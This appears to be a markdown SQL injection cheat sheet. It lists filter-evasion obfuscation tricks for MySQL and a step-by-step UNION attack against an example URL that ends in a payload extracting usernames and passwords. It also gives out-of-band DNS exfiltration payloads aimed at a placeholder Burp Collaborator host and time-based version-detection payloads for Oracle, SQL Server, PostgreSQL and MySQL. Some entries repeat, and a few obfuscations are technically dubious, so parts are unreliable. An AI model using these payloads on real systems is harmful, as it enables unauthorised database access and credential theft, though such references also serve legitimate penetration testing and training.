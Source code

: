 
##### ***Obfuscation techniques***
**String concatenation (MySQL):**
Original: **`CONCAT('foo','bar')`** Obfuscation: Use CHAR() function to represent the characters as ASCII codes. Obfuscated: **`CONCAT(CHAR(102,111,111),CHAR(98,97,114))`**
	
- Comments (MySQL):
Original: **`-- comment`** Obfuscation: Use MySQL's conditional comment syntax to confuse parsers. Obfuscated: **`/*!50000-- comment*/`**
	
- Database version (MySQL):
Original: **`SELECT @@version`** Obfuscation: Use MySQL's conditional comment syntax and the VERSION() function. Obfuscated: **`SELECT /*!50000@@*/VERSION()`**

- Database contents (MySQL):
Original: 
**`SELECT * FROM information_schema.tables`** 
Obfuscation: Use MySQL's conditional comment syntax in the table name. Obfuscated: **`SELECT * FROM /*!50000information_schema*/.tables`**
	
- Conditional errors (MySQL):
Original: **`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`** 
Obfuscation technique: Use MySQL's conditional comment syntax in the table name and column name. Obfuscated: **`SELECT IF(YOUR-CONDITION-HERE,(SELECT /*!50000table_name*/ FROM /*!50000information_schema*/.tables),'a')`**

- Time delays (MySQL):
Original: **`SELECT SLEEP(10)`** Obfuscation: Use the BENCHMARK() function to force the database to perform a time-consuming operation. Obfuscated: **`SELECT BENCHMARK(1000000,MD5('a'))`**
	
- Conditional time delays (MySQL):
Original: **`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`** Obfuscation: Use the BENCHMARK() function in the conditional expression to force a time-consuming operation. Obfuscated: **`SELECT IF(YOUR-CONDITION-HERE,BENCHMARK(1000000,MD5('a')),'a')`**
	
- String concatenation (MySQL): 
Original: **`CONCAT('foo','bar')`** Obfuscation: Use CHAR() function to represent the charters as ASCII codes. Obfuscated: **`CONCAT(CHAR(102,111,111),CHAR(98,97,114))`**
	
- Substring (MySQL): 
Original: **`SUBSTRING('foobar', 4, 2)`** Obfuscation: Use CHAR() function to represent the characters as ASCII codes. Obfuscated: **`SUBSTRING(CHAR(102,111,111,98,97,114), 4, 2)`**
	
- Comments (MySQL): 
Original: **`- comment`** Obfuscation: Use different comment styles or URL encoding. Obfuscated: **`%2D%2D%20comment`** or **`/*comment*/`**
	
- Database version (MySQL): 
Original: **`SELECT @@version`** Obfuscation: Use alternative system variables or functions. Obfuscated: **`SELECT VERSION()`**
	
- Database contents (MySQL): 
Original: **`SELECT * FROM information_schema.tables`** Obfuscation: Use alternative table names or schema. Obfuscated: **`SELECT * FROM INFORMATION_SCHEMA.TABLES`**
	
- Conditional errors (MySQL): 
Original: **`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`** Obfuscation: Use CHAR() function to represent the characters as ASCII codes. Obfuscated: **`SELECT IF(YOUR-CONDITION-HERE,(SELECT CHAR(116,97,98,108,101,95,110,97,109,101) FROM information_schema.tables),CHAR(97))`**
	
- Time delays (MySQL): 
Original: **`SELECT SLEEP(10)`** Obfuscation: Use alternative sleep functions or expressions. Obfuscated: **`SELECT IF(10=10, SLEEP(10), NULL)`**
	
- Conditional time delays (MySQL): 
Original: **`SELECT IF(YOUR-CONDITION-HERE, SLEEP(10), 'a')`** Obfuscation: Use CHAR() function to represent the characters as ASCII codes. Obfuscated: **`SELECT IF(YOUR-CONDITION-HERE, SLEEP(10), CHAR(97))`**
	
- DNS lookup (MySQL) [Windows only]: Original: **`LOAD_FILE('\\\\\\\\BURP-COLLABORATOR-SUBDOMAIN\\\\a')`** Obfuscation: Use alternative file loading functions or methods. Obfuscated: **`SELECT ... INTO OUTFILE '\\\\\\\\BURP-COLLABORATOR-SUBDOMAIN\\\\a'`**
	
- DNS lookup with data exfiltration (MySQL) [Windows only]: Original: **`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\\\\\BURP-COLLABORATOR-SUBDOMAIN\\\\a'`** Obfuscation: Use alternative methods for writing query results to a file. Obfuscated: **`SELECT YOUR-QUERY-HERE INTO DUMPFILE '\\\\\\\\BURP-COLLABORATOR-SUBDOMAIN\\\\a'`**
	
- Case modification: Use a mix of upper and lower case letters to obfuscate the SQL keywords. Original: **`SELECT * FROM users`** Obfuscated: **`sElEcT * fRoM users`**
	
- Inline comments: Insert comments within SQL keywords. Original: **`SELECT * FROM users`** Obfuscated: **`SEL/**/ECT * FROM users`**
	
- Base64 encoding (MySQL): Use **`FROM_BASE64()`** function to decode base64 encoded strings. Original: **`SELECT * FROM users`** Obfuscated: **`SELECT * FROM (SELECT FROM_BASE64('dXNlcnM=')) AS t`**
	
- String splitting: Split strings into smaller parts and concatenate them using string concatenation. Original: **`SELECT * FROM users`** Obfuscated: **`SELECT * FROM (SELECT 'us' || 'ers') AS t`**
	
- Using alternative functions: Use alternative functions that achieve the same result. Original: **`SELECT COUNT(*) FROM users`** Obfuscated: **`SELECT SUM(1) FROM users`**
	
- Replace simple operators with functions (MySQL): Use built-in functions to replace simple operators. Original: **`SELECT id FROM users WHERE id = 5`** Obfuscated: **`SELECT id FROM users WHERE GREATEST(id, 5) = LEAST(id, 5)`**
	
- Use mathematical operations to modify constant values: Modify constant values using mathematical operations. Original: **`SELECT id FROM users WHERE id = 5`** Obfuscated: **`SELECT id FROM users WHERE id = (7 - 2)`**
	
- Use a subquery for constant values: Replace constant values with a subquery. Original: **`SELECT id FROM users WHERE id = 5`** Obfuscated: **`SELECT id FROM users WHERE id = (SELECT 5)`**
	
- Encoding characters as URL-encoded values: Encode characters as URL-encoded values to obfuscate the query. Original: **`SELECT * FROM users`** Obfuscated: **`%53%45%4C%45%43%54%20%2A%20%46%52%4F%4D%20%75%73%65%72%73`**
        
- **UNION attacks.**
    
    A UNION-based SQL Injection attack exploits a vulnerability in a website's database query. By leveraging the UNION SQL operator, the attacker can combine the results of the original query with results from their own crafted query, which can be designed to extract sensitive information from the database. Here's a simplified example of how this could work:
    
    1. **Identify the Injection Point**: The first step is to identify a place where user input is included directly in a SQL query. This could be a form input, URL parameter, cookies, etc. For example, you might find a URL like this:
        
        **`http://example.com/products?category=Books`**
        
        Here, the category parameter could be included directly in a SQL query on the server:
        
        **`SELECT * FROM products WHERE category = 'Books'`**
        
    2. **Find the Number of Columns**: Before using UNION, you need to know the number of columns returned by the original query. You can find this by trying an ORDER BY clause and incrementing the number until an error occurs. For example:
        
        **`http://example.com/products?category=Books' ORDER BY 1--`**
        
        Keep incrementing the number until you get an error. This tells you the number of columns.
        
    3. **Identify Column Types**: Next, you need to figure out which columns can handle the type of data you want to extract. For example, if you want to extract text data, you need to find a column that can handle text. You can do this by replacing column values with a string one by one until no error occurs. For example:
        
        **`http://example.com/products?category=Books' UNION SELECT 'a',NULL,NULL--`**
        
        This would tell you if the first column can handle text data. If an error occurs, move the 'a' to the next column and try again.
        
    4. **Extract Information**: Once you know the number of columns and which can handle the types of data you're interested in, you can craft a query to extract data. You can use the UNION SELECT statement to combine the results of the original query with results from an injected query.
        
        For example, if you found that the first column can handle text and there are three columns, you could extract usernames and passwords like this:
        
        **`http://example.com/products?category=Books' UNION SELECT username, password, NULL FROM users--`**
        
##### ***Time based attacks.***

- Time based version detection.
	- **Oracle**:
		
		The following payload would cause a delay of 10 seconds if the major version of Oracle is 12.
		
		```
		SELECT CASE WHEN TO_CHAR(SUBSTR(BANNER,1,2))='12' THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
		```
		
	- **SQL Server**:
		
		```
		IF SUBSTRING(CAST(SERVERPROPERTY('ProductVersion') AS VARCHAR),1,2) = '12' WAITFOR DELAY '00:00:10'
		```
		
		The following payload would cause a delay of 10 seconds if the major version of SQL Server is 12.
		
	- **PostgreSQL**:
		
		The following payload would cause a delay of 10 seconds if the major version of PostgreSQL is 9.
		
		```
		SELECT CASE WHEN SUBSTRING(version(),1,1)='9' THEN pg_sleep(10) ELSE pg_sleep(0) END
		```
		
**MySQL**:
```
SELECT IF(SUBSTRING(@@version,1,1) = '5',SLEEP(10),'a')
```
The following payload would cause a delay of 10 seconds if the major version of MySQL is 5.
